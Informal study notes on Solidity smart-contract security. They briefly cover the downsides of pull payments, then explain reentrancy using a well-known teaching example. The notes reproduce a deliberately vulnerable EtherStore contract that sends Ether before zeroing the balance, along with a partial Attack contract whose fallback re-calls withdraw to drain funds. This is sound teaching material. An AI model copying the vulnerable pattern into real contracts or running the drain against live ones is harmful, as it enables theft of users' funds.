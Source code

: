  ### `Downsides`
 - using pull instead of push payments requires the users to send one additional transaction, namely the one requesting the withdrawa
 - his does not only lead to higher gas requirements and therefore higher transaction costs, but also harms the user experience as a whole.

 ## Reenterance Attacks
 example: https://solidity-by-example.org/hacks/re-entrancy/


As you noticed we been coding most of these contracts with all the state chages first before actaully sending or transfering the tokens/nft or ect.


In this contract there is a huge vulnerablity with chaning the balance after msg.sender.call
```
contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
        //two big attacks
        //reentry attack or oracle attack
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

With the attack contract the works like so
1) u deploy contract with address to vulnerable contract
2) u send money to atttack function which then deposits money into vulnerable contract and immediately withdraws funds
3) now attack contract just withdrawed funds and we have a fallback method implmented to then check the vulnerable contract to see if balance exists within contract if so call withdraw again
4) the original contract has yet updated balance before withdraw was called again by fallback of attack contract. So original contract thinks it can still withdraw more eth, this happens until contract has a value of 0
```
contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        //if theres money left in the contract 
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
```